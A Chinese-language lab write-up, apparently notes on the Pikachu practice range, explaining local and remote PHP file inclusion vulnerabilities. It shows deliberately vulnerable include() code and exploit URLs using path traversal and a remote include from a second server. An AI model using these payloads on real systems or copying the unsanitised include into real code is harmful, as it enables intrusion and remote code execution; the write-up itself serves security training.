 
## File_Inclusion

文件包含,是一个功能.在各种开发语言中都提供了内置的文件包含函数,其可以使开发人员在一个代码文件中直接包含(引入)另外一个代码文件. 比如 在PHP中,提供了:
- include(),include_once()
- require(),require_once()

大多数情况下,文件包含函数中包含的代码文件是固定的,因此也不会出现安全问题. 但是,有些时候,文件包含的代码文件被写成了一个变量,且这个变量可以由前端用户传进来,这种情况下,如果没有做足够的安全考虑,则可能会引发文件包含漏洞. 攻击着会指定一个"意想不到"的文件让包含函数去执行,从而造成恶意操作. 根据不同的配置环境,文件包含漏洞分为如下两种情况:
1. 本地文件包含漏洞:仅能够对服务器本地的文件进行包含,由于服务器上的文件并不是攻击者所能够控制的,因此该情况下,攻击着更多的会包含一些 固定的系统配置文件,从而读取系统敏感信息.很多时候本地文件包含漏洞会结合一些特殊的文件上传漏洞,从而形成更大的威力.
2. 远程文件包含漏洞:能够通过url地址对远程的文件进行包含,这意味着攻击者可以传入任意的代码,这种情况没啥好说的,准备挂彩.

因此,在 web 应用系统的功能设计上尽量不要让前端用户直接传变量给包含函数,如果非要这么做,也一定要做严格的白名单策略进行过滤.

### 本地文件包含

**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['filename']!=null){
    $filename=$_GET['filename'];
    include "include/$filename";//变量传进来直接包含,没做任何的安全限制
//     //安全的写法,使用白名单,严格指定包含的文件名
//     if($filename=='file1.php' || $filename=='file2.php' || $filename=='file3.php' || $filename=='file4.php' || $filename=='file5.php'){
//         include "include/$filename";

//     }
}
```

**漏洞利用**

查看页面的 url: `http://<服务器IP!!!>/pikachu/vul/fileinclude/fi_local.php?filename=file1.php&submit=提交`

尝试构造 payload: `http://<服务器IP!!!>/pikachu/vul/fileinclude/fi_local.php?filename=../../../test/phpinfo.txt&submit=%E6%8F%90%E4%BA%A4`

### 远程文件包含

将 allow_url_include 设置为 On

**服务器端核心代码**
```php
//远程文件包含漏洞,需要php.ini的配置文件符合相关的配置
if(isset($_GET['submit']) && $_GET['filename']!=null){
    $filename=$_GET['filename'];
    include "$filename";//变量传进来直接包含,没做任何的安全限制
}
```

**漏洞利用**

尝试构造 payload: `http://<服务器IP!!!>/pikachu/vul/fileinclude/fi_remote.php?filename=http://<服务器B IP!!!>/phpinfo.php&submit=%E6%8F%90%E4%BA%A4`

---